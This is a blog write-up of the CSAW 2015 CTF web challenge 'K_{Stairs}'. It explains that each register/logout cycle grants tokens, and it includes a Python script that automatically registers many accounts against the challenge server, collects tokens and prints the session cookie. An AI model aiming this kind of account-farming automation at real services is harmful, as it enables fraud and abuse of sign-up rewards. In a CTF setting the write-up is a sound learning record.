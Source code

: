 ```yaml
---
layout: post
title:  "CSAW - K_{Stairs}"
date:   2015-09-21 19:00
categories: csaw2015
tags: security ctf csaw2015 cryptography
---
```


**Category** : Web 

**Points** : 100

#Write-up

At the start of the CTF, this challenge was worth 50 pts but they change it for 100 pts. We realized that when you register/logout you get 3 more tokens each time. So, you create a new account to get more token. In that challenge, you need 10 tokens to buy a compass and 1 token for a pack of 5 foods item. 

We create a python script that create many accounts. Then, it return the cookie that we can replace with your current one. So, with that script you don't need to manually create account to have more tokens. 

###Script by [MOBergeron](https://gist.github.com/MOBergeron/a34e719e4587257defab)
{% highlight python %}
import hashlib
import requests

if __name__ == "__main__":
	u = 199999 # Change this everytime you run the script to have different user names
	
	urlRegister = "http://54.209.88.227/register"
	urlLogout = "http://54.209.88.227/logout"

	s = requests.session()
	
	for i in range(50): # Change this if you need more or less tokens
		username = hashlib.sha1(str(u)).hexdigest()
		user1 = username[:len(username)/2]
		user2 = username[len(username)/2:]
		# Login 1
		r = s.post(urlRegister, data={'user':user1,'pass':'','login':'register'})
		s.get(urlLogout)

		# Login 2
		r = s.post(urlRegister, data={'user':user2,'pass':'','login':'register'})
		
		if(i < 49):
			s.get(urlLogout)
		u+=1

	print(r.cookies)
{% endhighlight %}

Then, you just need to by a compass, foods and follow the compass indication to find the stairs.

And when we reach the stairs we get this message :

“Your compass indicates you are going the right way. You found the exit... You win! You find the key on a piece of paper: KEY{H0000LY_ST41rRs_S0000_MUCH_SPACE}. Then a grue gets you. You die.”



